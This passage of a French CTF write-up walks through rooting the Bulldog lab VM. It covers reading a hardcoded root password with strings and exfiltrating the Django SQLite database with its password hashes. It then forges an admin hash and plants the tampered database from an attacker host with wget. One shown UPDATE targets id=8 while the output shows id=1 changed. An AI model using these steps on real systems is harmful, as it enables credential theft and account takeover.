<gadmin/.hiddenadmindirectory$ ./customPermissionApp
bash: ./customPermissionApp: Permission denied

<gadmin/.hiddenadmindirectory$ strings customPermissionApp
--snip--
GLIBC_2.4
GLIBC_2.2.5
UH-H
SUPERultH
imatePASH
SWORDyouH
CANTget
dH34%(
AWAVA
AUATL
[]A\A]A^A_
Please enter a valid username to use root privileges
	Usage: ./customPermissionApp <username>
sudo su root
;*3$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
--snip--
```

Nous y sommes presque ! [```strings```](https://en.wikipedia.org/wiki/Strings_(Unix)) laisse apparaître ```sudo su root``` et le mot de passe ```SUPERultimatePASSWORDyouCANTget```.

```console
django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ sudo su root
sudo su root
[sudo] password for django: SUPERultimatePASSWORDyouCANTget

root@bulldog:/home/bulldogadmin/.hiddenadmindirectory# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Il ne reste plus qu'à lire le mot final de [Nick](https://frichetten.com/), et à le remercier chaudement pour cette excellente VM !

```console
root@bulldog:/home/bulldogadmin/.hiddenadmindirectory# ls /root
ls /root
congrats.txt

root@bulldog:~# cat /root/congrats.txt
cat /root/congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!
```

## Bonus n°1 : Exfiltration de la base de données SQLite3

```console
Command : echo $(base64 db.sqlite3)

--snip--
aGRYUm9MbUpoWTJ0bGJtUnpMazF2WkdWc1FtRmphMlZ1WkNJc0lsOWhkWFJvW
DNWelpYSmZhV1FpT2lJNEluMD0yMDE4LTAyLTIzIDIxOjU5OjUzLjI0OTI1NA==
```

```console
root@blinils:~# base64 -d bulldog.sqlite3 > db.sqlite3
root@blinils:~# sqlite3 db.sqlite3
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  auth_user_user_permissions
auth_group_permissions      django_admin_log          
auth_permission             django_content_type       
auth_user                   django_migrations         
auth_user_groups            django_session            

sqlite> .headers on 

sqlite> select * from django_session;
session_key|session_data|expire_date
7c9ks1ywspnb2mu500z63zp178eo1zrh|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-02 06:37:06.605011
exuboafi4l2garfjmb92z041pspfodtl|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-09 02:48:23.352017
7toi97v6ux7duk4o9mzu7v34oiwhlexs|YjcyYTMwNzY4Mzk2MTFmMmQyYmE1MGZhMzA2MzNmYjdiODA3NGEwMDp7Il9hdXRoX3VzZXJfaGFzaCI6IjliMThhNzgyNjI4YjEzZDFhY2E4YjAwMjA3MTIwMWUxODUzNjMyMTIiLCJfYXV0aF91c2VyX2JhY2tlbmQiOiJkamFuZ28uY29udHJpYi5hdXRoLmJhY2tlbmRzLk1vZGVsQmFja2VuZCIsIl9hdXRoX3VzZXJfaWQiOiI4In0=|2017-09-11 22:37:35.697643

sqlite> select * from auth_user;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$9k0TYJltYWk5$rE0aQA4DGFxEjBhBH0BEJhFsF2Jx63690a8VGE/9a+c=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010
3|pbkdf2_sha256$20000$AvMG3SPMFdWk$br74kiJcinPLKkqG+i9G+2MavMVW9IXDl2TSeQ5My+A=|0|alan||||1|1|2017-08-19 05:57:32|
4|pbkdf2_sha256$20000$LgCCwZ1qFhSK$xv2NHkto76GEp11lXNUFPsiolvoV8c8R/PRl2/XccX0=|0|william||||1|1|2017-08-19 06:02:07|
5|pbkdf2_sha256$20000$IjvfpwWo8tw9$9PZgYsZCcRz3dLVU/4TnXa9i2VcybBnBedCyNjk3Sak=|0|malik||||1|1|2017-08-19 06:02:50|
6|pbkdf2_sha256$20000$ooicdWHyxlTk$oNMBAZDKarihoPIzzYAhDq+4cR8JtJGt9JQIA8q1SX8=|0|kevin||||1|1|2017-08-19 06:03:22|
7|pbkdf2_sha256$20000$nmdkvhu3yqa9$8VSo44h9fXYj6FLavolYDZ7P5PhFBLeKBmLkBlNpGTk=|0|ashley||||1|1|2017-08-19 06:04:18|
8|pbkdf2_sha256$20000$QFeEaqreqK8o$ldGl5qhFnyB+tFrOflSwxSGO3Xt/mL4sjBiCPyPusU4=|0|nick||||1|1|2017-08-19 06:06:08|2018-01-01 00:11:00.111111
9|pbkdf2_sha256$20000$lA6iOt4XGXLw$0VHpbYjNiFN4CnHisuB+bFh72A6sn03Q+d34Laj7jkM=|0|sarah||||1|1|2017-08-19 06:06:56|2018-01-01 00:00:11.000000
```

Dommage, les cookies de session stockés en base de données ont expiré et ne peuvent être rejoués. Cela dit, il semble possible de jouer avec les mots de passe du panel Django. S'il paraît [impensable de les casser](https://www.sjoerdlangkemper.nl/2016/05/25/iterative-password-hashing/) au vu du temps de calcul que PBKDF2-HMAC-SHA256 demande, l'autre option consiste à les modifier à notre guise. Le mot de passe ciblé sera bien évidemment celui du compte admin.

## Bonus n°2 : Modification du mot de passe du compte admin Django

_Nota Bene : Django utilise un format différent de hash basé sur l'algorithme PBKDF2, PBKDF2-HMAC-SHA256, ce qui m'a fait perdre quelques heures dans la résolution de cette VM. Il faut utiliser la classe [passlib.hash.django_pbkdf2_sha256](http://passlib.readthedocs.io/en/stable/lib/passlib.hash.django_std.html#django-1-4-hashes) et non [passlib.hash.pbkdf2_sha256](http://passlib.readthedocs.io/en/stable/lib/passlib.hash.pbkdf2_digest.html), au risque d'obtenir des erreurs 500 à répétition après avoir réuploadé la nouvelle base de données SQLite3._

```console
root@blinils:~# python
Python 2.7.14+ (default, Dec  5 2017, 15:17:02) 
[GCC 7.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from passlib.hash import pbkdf2_sha256
>>> hash = pbkdf2_sha256.using(rounds=20000).hash("blinils")
>>> hash
'$pbkdf2-sha256$20000$dU7pfY8xBkCoVcrZm5Pyvg$AOBAk3cJttJtAGdjx4GrMOjO9h4ZUP0GgU4i16.I0lQ'
```

On remarque bien que le hash n'a pas la même forme que ceux stockés en base de données et, même en opérant quelques modifications cosmétiques sur le hash (```$pbkdf2-sha256``` en ```pbkdf2_sha256``` par exemple), cela ne marche toujours pas. Avec la bonne classe, c'est bien mieux.

```console
root@blinils:~# python
Python 2.7.14+ (default, Dec  5 2017, 15:17:02) 
[GCC 7.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from passlib.hash import django_pbkdf2_sha256 as handler
>>> hash = handler.using(rounds=20000).hash("blinils")
>>> hash
'pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI='
```

```console
root@blinils:~# sqlite3 db.sqlite3
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.

sqlite> .tables
auth_group                  auth_user_user_permissions
auth_group_permissions      django_admin_log          
auth_permission             django_content_type       
auth_user                   django_migrations         
auth_user_groups            django_session  
          
sqlite> .headers on

sqlite> select * from auth_user where id=1;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$9k0TYJltYWk5$rE0aQA4DGFxEjBhBH0BEJhFsF2Jx63690a8VGE/9a+c=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010

sqlite> update auth_user set password="pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI=" where id=8;

sqlite> select * from auth_user where id=1;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010

sqlite> ^Z
[1]+  Stopped                 sqlite3 db.sqlite3

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Une fois le changement opéré, la nouvelle base de données est transférée sur le serveur Bulldog.

```console
django@bulldog:/home/django/bulldog$ wget http://192.168.56.101:8000/db.sqlite3
</bulldog$ wget http://192.168.56.101:8000/db.sqlite3                        
--2018-01-01 00:00:00--  http://192.168.56.101:8000/db.sqlite3
Connecting to 192.168.56.101:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 40960 (40K) [application/octet-stream]
Saving to: ‘db.sqlite3.1’

db.sqlite3.1        100%[===================>]  40.00K  --.-KB/s    in 0s      

2018-01-01 00:00:01 (160 MB/s) - ‘db.sqlite3.1’ saved [40960/40960]

django@bulldog:/home/django/bulldog$ mv db.sqlite3 db.sqlite3.old && mv db.sqlite3.1 db.sqlite3
</bulldog$ mv db.sqlite3 db.sqlite3.old && mv db.sqlite3.1 db.sqlite3

django@bulldog:/home/django/bulldog$ ls
ls
bulldog  db.sqlite3  db.sqlite3.old  manage.py	shell.py
```



La connexion au compte ```admin``` fonctionne désormais avec le nouveau mot de passe !



## Bonus n°3 : Questions laissées en suspens

* Quid de l'utilisation de l'exploit _Dirty COW_ ? Et pourquoi deux serveurs Web au lieu d'un seul ?
* Quelle est la deuxième manière de passer root évoquée par Nick ? (.... sûrement avec l'antivirus et la _crontab_)
